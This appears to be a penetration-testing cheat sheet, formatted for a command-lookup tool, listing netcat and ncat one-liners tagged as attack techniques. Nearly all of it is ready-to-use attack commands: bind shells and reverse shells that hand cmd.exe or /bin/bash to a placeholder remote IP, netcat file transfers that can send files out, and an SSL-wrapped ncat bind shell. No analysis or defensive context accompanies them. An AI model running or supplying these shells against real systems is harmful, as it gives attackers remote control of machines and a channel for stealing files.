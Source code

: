 # netcat

% nc, netcat

#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 
## nc setup listener
```
nc -nlvp <lport>
```

## nc bind shell windows
#plateform/windows 
```
nc -nlvp <port> -e cmd.exe
```

## nc bind shell linux
#plateform/linux
```
nc -nlvp <port> -e /bin/bash
```

## nc reverse shell windows
#plateform/windows  #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e cmd.exe
```

## nc reverse shell linux
#plateform/linux #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e /bin/bash
```

## nc transfer file - receiver
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nlvp <port> > <incomming_file>
```

## nc transfer file - sender
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## ncat bind shell ssl filtered
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```

